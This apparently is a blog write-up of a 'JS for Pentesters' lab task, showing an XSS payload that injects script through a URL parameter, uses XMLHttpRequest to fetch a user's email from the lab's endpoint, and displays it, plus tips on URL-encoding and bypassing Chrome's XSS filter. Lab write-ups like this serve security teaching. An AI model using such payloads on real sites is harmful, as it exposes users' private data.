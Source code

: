 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-31 15:54:21+00:00
layout: post
slug: xss-fetching-data-xmlhttprequest-js-pentesters-task-14
title: 'XSS - fetching data with XMLHttpRequest: JS for Pentesters task 14'
wordpress_id: 345
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-14 of JS for pentesters series by security-tube - Fetching data with XMLHTTPRequest 
---
```


Recently we saw an introduction challenge to [XMLHttpRequest()]({{ site.url }}/2014/10/31/xss-posting-xmlhttprequest-js-pentesters-task-13/) which was quite easy and covers only the basics of the same. Now this is a bit advanced comparing to the basic one. Let us look into the challenge:


### [JS for Pentesters task 14](http://pentesteracademylab.appspot.com/lab/webapp/jfp/14)


Our objective is to Find John's Email Address using an XSS vulnerability on this page and Display the Email address in the div with id "result". So when you check the source code of the challenge, you can see that we need to send a GET request to "/lab/webapp/jfp/14/email" with the parameter name = John which will return the email address for you. We should display this email address in the webpage. Before continuing this challenge, I strongly recommend you to read this: "[Everything you should know about XMLHttpRequest()]({{ site.url }}/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/)". Let us look into the payload:

{% highlight html lineos %}
    <script>
        var request = new XMLHttpRequest();    
        request.onreadystatechange = function() {
            if (request.readyState == 4 && request.status == 200) {
                document.getElementById("result").innerHTML = request.responseText;
            }
        }
        request.open("GET", "/lab/webapp/jfp/14/email?name=john", true);
        request.send();
    </script>
{% endhighlight %}

Now how is this working ? First, we are creating a new XMLHttpObject() and use it as a GET request to the specified link. Then when the request has been done successfully and response is ready, we put the response inside the result element and there, we cracked the challenge.

**Note:**



1) If you didn't understand the payload properly, I strongly recommend you read the basics of [XMLHttpRequest() ]({{ site.url }}/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/)first and then try again.

2) While playing with **XSS challenges**, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

3) You have to [URL encode](http://meyerweb.com/eric/tools/dencoder/) the payload before the injection via the url parameter or else this will fail to work

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
